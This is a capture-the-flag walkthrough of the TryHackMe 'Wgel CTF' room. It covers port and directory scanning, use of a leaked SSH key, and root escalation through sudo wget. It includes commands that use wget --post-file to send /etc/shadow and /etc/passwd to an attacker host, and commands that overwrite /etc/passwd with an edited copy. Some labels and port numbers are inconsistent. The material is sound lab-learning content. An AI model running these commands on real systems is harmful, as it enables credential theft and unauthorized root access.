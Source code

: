 # Wgel CTF

**Room Link:** [https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)





## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

On the main page of the site it was just a apache default page but in the source we can see someone named jessie making a comment.

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Ran gobuster and found a site under sitemap, nothing really interesting about it when browsing.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

gobuster wasn't really able to find anything interesting.

**Kali**

```
gobuster dir -u http://$VICTIM/sitemap/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

Ran dirb with defaults and it found a .ssh folder which has a id\_rsa so I downloaded and used it.

**Kali**

```
dirb http://$VICTIM/sitemap/
```

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
ssh -v -i id_rsa  jessie@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

I tried cracking jessies hash as I would then be able to run any command with sudo but I couldn't crack it, documenting it anyways.

**Victim**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
sudo -u root /usr/bin/wget --post-file=/etc/passwd $KALI:4444
```

**Victim**

```
nc -lvnp 4444
```

**Victim**

```
unshadow passwd.txt shadow.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```



Instead I  changed the passwd file, I first downloaded to kali and changed the line for jessie so their password is now '123'. Then I uploaded it back and just became root.

**Victim**&#x20;

```
sudo -u root /usr/bin/wget --post-file=/etc/passwd 10.10.65.21:4444
```

**Kali**&#x20;

```
nc -lvnp 4444
```

**Line to change**

```
jessie:$1$new$p7ptkEKU1HnaHpRtzNizS1:1000:1000:jessie,,,:/home/jessie:/bin/bash

```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
sudo wget http://$KALI:8/passwd -O /etc/passwd
sudo -i
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

